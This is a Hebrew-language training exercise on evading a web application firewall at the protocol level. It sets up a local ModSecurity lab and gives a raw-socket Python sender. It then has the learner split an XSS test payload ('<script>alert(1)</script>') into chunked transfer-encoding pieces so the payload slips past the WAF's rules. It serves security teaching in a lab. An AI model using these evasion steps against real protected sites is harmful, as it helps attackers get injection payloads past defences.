

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/8 - עקיפת WAF/8.5 - עקיפה ברמת פרוטוקול/8.5 - עקיפה ברמת פרוטוקול - תרגיל/index.html · generator: mkdocs

# הbypass ברמת פרוטוקול - תרגיל

## הכנה

```bash
# Setting up an environment with ModSecurity behind a reverse proxy
docker run -d --name modsec-protocol -p 8080:80 \
    -e PARANOIA=2 owasp/modsecurity-crs:apache
```

לחלק מהתרגילים תצטרכו לשלוח בקשות HTTP גולמיות. השתמשו בסקריפט הבא:

```python
import socket

def send_raw(host, port, raw_request):
    """Send a raw HTTP request"""
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))
    sock.send(raw_request.encode())
    response = b""
    while True:
        data = sock.recv(4096)
        if not data:
            break
        response += data
    sock.close()
    return response.decode(errors='replace')
```

## תרגיל 1 - Chunked Transfer Encoding

**משימה:**

1. שלחו בקשה רגילה שנחסמת:
   ```http
   POST /search HTTP/1.1
   Host: localhost:8080
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 33

   q=<script>alert(1)</script>
   ```

2. שלחו את אותו payload מפוצל ב-chunks:
   ```python
   payload = "q=<script>alert(1)</script>"
   # Split into chunks of 3, 5, and 10 bytes
   # Which of the sizes bypasses the WAF?
   ```

3. נסו פיצולים אסטרטגיים - פצלו בדיוק באמצע המילה `script`:
   ```
   chunk 1: "q=<scr"
   chunk 2: "ipt>al"
   chunk 3: "ert(1)"
   chunk 4: "</script>"
   ```

4. כתבו פונקציה שמפצלת payload ל-chunks באופן אופטימלי:
   ```python
   def optimal_chunking(payload, blocked_patterns):
       """Split a payload so that no chunk contains a blocked pattern"""
       # TODO: complete
       pass
   ```
